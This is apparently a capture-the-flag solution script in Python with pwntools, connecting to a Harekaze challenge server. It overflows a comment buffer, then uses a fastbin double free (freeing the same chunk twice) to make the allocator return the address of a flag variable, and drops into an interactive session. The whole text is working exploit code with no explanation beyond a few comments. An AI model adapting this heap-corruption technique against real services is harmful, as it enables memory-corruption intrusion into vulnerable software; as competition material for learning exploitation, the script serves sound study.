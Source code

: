 ```python
    pc.sendline('1')
    pc.recvuntil('Size: ')
    pc.sendline(size)
    pc.recvuntil('Name: ')
    pc.sendline(name)
    if not fl:
        pc.recvline()
    name = pc.recvline()[6:-1]
    resp = pc.recvline()
    if print_flag:
        print(resp)
    addr = pc.recvline()[6:-1]
    return name, addr


def delete(pc, addr):
    pc.recvuntil('> ')
    pc.sendline('2')
    pc.recvuntil('Addr: ')
    pc.sendline(addr)
    pc.recvuntil('3. Exit')
    pc.recvuntil('3. Exit')


def main():
    flag = '\x56\x40\x20\x00\x00\x00\x00\x00'

    pc = remote('problem.harekaze.com', 20175)
    
    comment(pc, 'A' * 94 + '\x41\x00')
    name1, addr1 = add(pc, '45', 'AAAA')
    name2, addr2 = add(pc, '45', 'BBBB')
    name3, addr3 = add(pc, '45', 'CCCC')

    delete(pc, addr1)
    delete(pc, addr2)
    delete(pc, addr1)

    name4, addr4 = add(pc, '45', flag, True)  # after allocating name6, fastbin's top chunk will be changed to desirable address (flag variable).
    name5, addr5 = add(pc, '45', '', True)
    name6, addr6 = add(pc, '45', flag, True)
    
    print(addr4)  # check if double free works
    print(addr6)

    delete(pc, addr4)

    name7, addr7 = add(pc, '45', '')
    name8, addr8 = add(pc, '45', 'AAAAAAAAAAAAAAAAAAAAAAAAA', print_flag=True)

    pc.interactive()


if __name__ == '__main__':
    main()
```
